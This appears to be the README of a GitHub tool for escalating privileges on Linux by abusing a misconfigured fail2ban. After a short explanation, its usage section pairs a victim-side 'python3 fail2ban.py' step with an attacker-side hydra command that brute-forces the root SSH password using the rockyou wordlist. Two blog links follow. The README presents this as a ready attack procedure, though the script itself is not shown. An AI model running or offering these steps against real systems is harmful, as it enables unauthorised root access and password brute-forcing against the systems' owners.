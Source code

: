 
# Privilege Escalation via fail2ban
In Linux, fail2ban is mostly used to protect the SSH service. 
If the daemon detects several unsuccessful ssh login attempts, it executes a command that blocks the IP address.
So misconfigurations can lead to privilege escalation.

![alt text](https://github.com/rvizx/fail2ban/blob/main/img.png?raw=true)

# Usage
@victim
```
python3 fail2ban.py
```


@attacker
```
hydra <ip-addr> -l root -P /usr/share/wordlists/rockyou.txt ssh
```

# Notes
https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7 <br>
https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/

